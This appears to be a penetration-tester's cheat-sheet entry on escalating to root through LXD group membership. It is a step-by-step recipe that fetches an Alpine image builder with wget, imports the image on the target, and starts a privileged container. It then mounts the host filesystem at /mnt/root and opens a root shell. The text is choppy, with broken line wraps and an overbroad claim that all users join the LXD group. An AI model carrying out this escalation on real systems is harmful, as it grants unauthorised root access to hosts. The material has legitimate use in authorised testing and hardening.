



LXC / LXD groups
LXD group is similar to Docker group and is the
Ubuntu container manager.
Upon installation, all users are added to the LXD group.
Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root.
Let's confirm group membership and use these rights to escalate to root.
We can escalate the privileges if we are in the
lxd group Download Alpine (
https://github.com/saghul/lxd-alpine-builder)
1. In the
Attacker Machine wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Execute build-alpine to build an Alpine-Linux image, it is the tar.gz file created
 2. In the
Target Machine 1) Download the builded Alpine inmage from the Attacker machine
 2) Import the image
lxc image import alpine-v3.15-x86_64-20191008_1227.tar.gz --alias attackerImage
3) Start a privileged container with the
security.privileged set to
true to run the container without a UID mapping
This make the root user in the container the same as the root user on the host.
lxc init attackerImage rootAttacker -c security.privileged=true
4) Mount the host file system
lxc config device add rootAttacker mydev disk source=/ path=/mnt/root recursive=true
5) Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.
lxc start rootAttacker
lxc exec rootAttacker /bin/sh